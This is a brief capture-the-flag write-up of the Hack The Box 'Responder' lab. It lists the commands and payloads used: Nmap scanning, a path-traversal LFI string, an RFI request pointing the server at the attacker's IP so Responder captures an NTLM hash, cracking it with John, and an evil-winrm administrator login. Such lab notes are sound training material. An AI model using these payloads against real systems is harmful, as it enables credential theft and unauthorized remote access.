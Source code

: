 ## Lab Title: Responder
- Date: 2025-08-04
- Duration: ~30 minutes

### Platform: HTB – Starting Point > Tier 1

### 1. Scenario Summary
- Learn to use Responder to capture credentials, RFI, Evil-WinRm

### 2. Findings
- IP redirected         >> Domain: `unika.htb`
- Nmap                  >> Enumeration
    - `nmap $ip -A -sV --top-ports 10000`

- `page`                  >> Used to load different language versions
- LFI                   >> Local File Inclusion: `../../../../../../../../windows/system32/drivers/etc/hosts`
- RFI                   >> Remote File Inclusion: `//10.10.14.6/somefile`
- NTLM                  >> New Technology LAN Manager
- Responder             >> Tool used to **poison LLMNR, NBT-NS, and MDNS responses on a local network**
    - *captures credentials (like NTLM hashes) from misconfigured systems*
    - It Works:
        - *Listens on the local network for name resolution requests (LLMNR/NBT-NS/mDNS)*
        - **When a system can't resolve a name, Responder replies with a fake IP**
        - *It then captures credentials (like NTLM hashes) sent during the authentication attempt*

- Attack Steps:
    1. `responder -I tun0` >> listens on local network now
    2. `http://unika.htb/index.php?page=//10.10.14.7/TrickServerFile` >> we connect from Web Page

    3. With RFI(given IP is our IP >> tun0) >> when it connects to our machine:
        - Responder catches the credentials: client's IP, username, Password Hash

    4. After the NTLM Hash is obtained >> `John The Ripper` to brute-force the hash
        - Cracked with it >> password: `badminton`

    5. Later with Nmap >> I got it that on remote target >> `5985` port is open
        - **WinRM** (windows remote management) uses this port over HTTP

    6. Using tool: `evil-winrm` >> we connect to the user: administrator with obtained password from `John`:
        - `evil-winrm -i $ip -u administrator -p badminton`
        - `dir C:\flag.txt /s /b` >> `/s` >> recursive >> `/b` >> bare format just path
        - `type flag.txt` >> Voila

### 3. Idea
- With RFI >> force web server to connect to your machine >> while Responder listens on your machine
    to capture credentials from Web Server >> client IP, username, Password Hash >> with this hash
    run John >> obtained password >> connect to target with open port `5985` of WinRM >> Use
    `evil-winrm` >> voila!
